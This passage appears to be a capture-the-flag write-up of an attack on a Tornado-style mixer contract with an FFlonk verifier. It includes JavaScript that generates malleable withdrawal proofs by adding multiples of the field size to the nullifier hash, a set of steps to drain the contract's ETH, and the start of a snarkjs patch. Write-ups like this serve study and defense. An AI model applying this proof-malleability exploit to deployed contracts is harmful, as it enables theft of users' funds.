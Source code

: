 
3. Generate the exploit transactions as solidity code:

```javascript
for (let i = 0; i < commitments.length; i++) {
  const commitment = commitments[i];
  const wtns = witnesses[i];
  let output = `tornado.deposit{value: 1 ether}(0x${commitment.toString(16)});\n`;
  
  for (let n = 0n; n < 5n; n++) {
    const { proof: _proof, publicSignals: _pub } = await fflonk.prove(zkey_path, wtns, undefined, undefined, n);
    const proof = unstringifyBigInts(_proof);
    const publicSignals = unstringifyBigInts(_pub);
    
    // Format proof elements for contract call
    const elems = [
      proof.polynomials.C1[0], proof.polynomials.C1[1],
      proof.polynomials.C2[0], proof.polynomials.C2[1],
      proof.polynomials.W1[0], proof.polynomials.W1[1],
      proof.polynomials.W2[0], proof.polynomials.W2[1],
      proof.evaluations.ql, proof.evaluations.qr,
      // ... additional proof elements ...
    ];
    
    output += formatWithdrawCall(elems, publicSignals);
  }
  console.log(output);
}
```

4. Execute the withdrawals in sequence:
- Add our address to whitelist using recovered private key
- Make 3 deposits of 1 ETH each
- Perform 5 withdrawals per deposit using the generated malleable proofs
- Successfully drain all 10 ETH from the contract

The withdrawal proofs are valid because adding multiples of the field size to the nullifier hash preserves the modular equivalence in the verifier's computations while producing distinct values for the contract's nullifier tracking.

### Why It Works

The exploit succeeds because:
1. The FFlonk verifier only uses public inputs in modular arithmetic operations
2. Adding the field size to a public input preserves the modular equivalence
3. The transcript includes the modified public input, maintaining proof validity
4. The contract tracks nullifiers using the malleable value rather than the original

## Complete Scripts

snarkjs.patch

```diff
diff --git a/src/Keccak256Transcript.js b/src/Keccak256Transcript.js
index ab3d227..6b34e06 100644
--- a/src/Keccak256Transcript.js
+++ b/src/Keccak256Transcript.js
@@ -23,6 +23,7 @@ const { keccak256 } = jsSha3;

 const POLYNOMIAL = 0;
 const SCALAR = 1;
+const RAW = 2;

 export class Keccak256Transcript {
     constructor(curve) {
```